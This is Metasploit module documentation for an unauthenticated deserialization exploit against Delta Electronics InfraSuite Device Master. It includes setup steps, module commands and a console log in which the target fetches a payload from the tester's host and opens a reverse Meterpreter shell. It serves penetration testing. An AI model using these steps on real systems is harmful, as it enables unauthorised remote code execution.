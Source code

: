 ## Vulnerable Application

Delta Electronics InfraSuite Device Master versions below `v1.0.5` are vulnerable to
an unauthenticated .NET deserialization vulnerability in the `Device-Gateway-Status` process which
listens on port `10100` and communicates over UDP. Its `ParseUDPPacket()` method reads user-controlled
data and passes what it determines to be the packet header to the `BinaryFormatter.Deserialize()` method without appropriate validation,
resulting in code execution as the user running the `Device-Gateway-Status` process.

### Installation Instructions

1. Unzip and run the installer from https://archive.org/details/infra-suite-device-master-00.00.01ax-64
2. Install all of the pre-requisites (Stack Builder is not needed) and reboot
3. Click `next` and ensure the three features, `Device-Monitor`, `Device-DataCollect`, and `Device-Gateway` are selected to install
4. The password on the next screen should say `Ems3000!`, but it is not needed for the exploit
5. Click `Next`, then `Install`
6. Click `Finish`, then wait for the processing of files to finish
7. Once the previous step is done, ensure `Yes, I want to restart my computer now` is checked and click `Finish`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/delta_electronics_infrasuite_deserialization`
4. Do: `set RHOST <IP>`
5. Do: `set INFRASUITE_PORT <PORT_NO>`
6. Do: `run`
7. You should get a meterpreter session.

## Options

### INFRASUITE_PORT

This is the option on which the web-based InfraSuite Device Manager listens. It is
only used to check the version of the software to determine exploitability. 80 by default

## Scenarios

### InfraSuite Device Master v01.00.00d on Windows 10 x64

```
msf > use exploit/windows/misc/delta_electronics_infrasuite_deserialization
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/misc/delta_electronics_infrasuite_deserialization) > set rhost 192.168.140.187
rhost => 192.168.140.187
msf exploit(windows/misc/delta_electronics_infrasuite_deserialization) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(windows/misc/delta_electronics_infrasuite_deserialization) > options

Module options (exploit/windows/misc/delta_electronics_infrasuite_deserialization):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   INFRASUITE_PORT  80               yes       The port on which the InfraSuite Manager is listening
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port]
                                               [...]
   RHOSTS           192.168.140.187  yes       The target host(s), see https://docs.metasploit.com/doc
                                               s/using-metasploit/basics/using-metasploit.html
   RPORT            10100            yes       The target port (UDP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly g
                                               enerated)
   TARGETURI        /                yes       The base path to the InfraSuite Manager
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be
                                       an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper



View the full module info with the info, or info -d command.


msf exploit(windows/misc/delta_electronics_infrasuite_deserialization) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting the login page to determine if target is Infrasuite Device Master...
[*] Target is InfraSuite Device Master. Now attempting to determine version.
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/xkRhewOXntAgYs
[*] Command Stager progress - 100.00% done (153/153 bytes)
[*] Client 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673) requested /xkRhewOXntAgYs
[*] Sending payload to 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673)
[*] Sending stage (175686 bytes) to 192.168.140.187
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.187:50409) at 2023-06-05 17:09:29 -0500
[*] Server stopped.

meterpreter > getuid
Server username: DESKTOP-R6RCNHH\space
meterpreter > sysinfo
Computer        : DESKTOP-R6RCNHH
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x86/windows
meterpreter >
```
